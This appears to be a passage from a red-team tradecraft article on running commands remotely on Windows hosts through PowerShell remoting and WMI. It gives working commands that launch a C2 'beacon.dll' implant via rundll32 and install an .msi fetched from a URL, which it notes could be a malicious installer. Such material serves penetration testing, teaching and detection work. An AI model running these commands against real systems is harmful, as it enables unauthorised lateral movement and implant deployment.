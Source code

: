 ### Execute command-lines
Command-lines can be executed through various ways and protocols. Some of these methods are described here while at the [LOFL-Project website](https://lofl-project.github.io/) a more extensive list is available when selecting the **Execute** function.

The most straight-forward way is the `Invoke-Command` cmdlet which either uses an existing PowerShell remoting session created using the `New-PSSession` cmdlet via the `-Session` parameter, or directly specifies the system (or systems) the cmdlet needs to be executed against using the `-Computer` parameter which optionally can handle an array of computer names. For long running tasks however, the WinRM connection must remain open otherwise the process is immediately killed. For that reason, this option is good to obtain some information through a cmdlet or command-line tool, but it is not ideal for launching a software implant.

```powershell
Invoke-Command -ComputerName W10.ad.bitsadmin.com { systeminfo.exe; Get-NetIPAddress }
```

Another method is WMI using the `Invoke-WSManAction` cmdlet which uses a WinRM session. In contrast to the `Invoke-Command` cmdlet, because this method uses WMI as opposed to WinRM, this cmdlet *does* support long running executions. It does not show the output of the command though. Processes executed are launched under the `WmiPrvSE.exe` process which is the WMI Provider Host and is spawned by the DcomLaunch service `svchost.exe` process.

```powershell
Invoke-WSManAction -ComputerName W10.ad.bitsadmin.com -Action "Create" -ResourceURI wmicimv2/win32_process -ValueSet @{CommandLine='C:\Windows\System32\rundll32.exe "C:\tmp\App Folder\beacon.dll",Start'}
```

The same WMI execution can be accomplished using `Invoke-CimMethod` which in contrast to `Invoke-WSManAction` using the `-SessionOption` parameter of the `New-CimSessionOption` cmdlet provides the option to either use WinRM or DCERPC as protocol. The following code Launches a beacon through DCERPC via WMI.

```powershell
PS C:\> $so = New-CimSessionOption -Protocol Dcom
PS C:\> $s = New-CimSession -ComputerName W10.ad.bitsadmin.com -SessionOption $so
PS C:\> Invoke-CimMethod -ClassName Win32_Process -Name Create -Arguments @{CommandLine='C:\Windows\System32\rundll32.exe "C:\tmp\App Folder\beacon.dll",Start'} -CimSession $s

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3648           0 W10.ad.bitsadmin.com


PS C:\>
```

Besides execution through the commonly known `Win32_Process` class, there are various alternative WMI classes to accomplish execution. One of those is the `Win32_Product` class which allows to install a `.msi` installer package from a URL. See below a video clip in which a benign `.msi` is downloaded and installed. This could however also have been a malicious installer package which launches a C2 software implant. The command-line used in this video is as follows.

```powershell
PS C:\> Invoke-CimMethod -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation="https://7-zip.org/a/7z2301-x64.msi"; Options=""; AllUsers=$true} -CimSession $s

ReturnValue PSComputerName
----------- --------------
          0 W10.ad.bitsadmin.com


PS C:\>
```
